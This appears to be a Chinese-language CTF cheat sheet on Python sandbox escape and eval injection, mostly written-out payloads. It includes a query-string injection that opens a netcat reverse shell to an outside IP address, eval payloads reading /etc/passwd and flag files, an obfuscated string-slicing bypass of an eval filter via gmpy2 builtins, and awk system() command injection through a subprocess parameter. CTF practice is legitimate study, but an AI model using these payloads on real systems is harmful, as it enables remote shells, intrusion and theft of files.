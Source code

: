 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。


^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```


^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

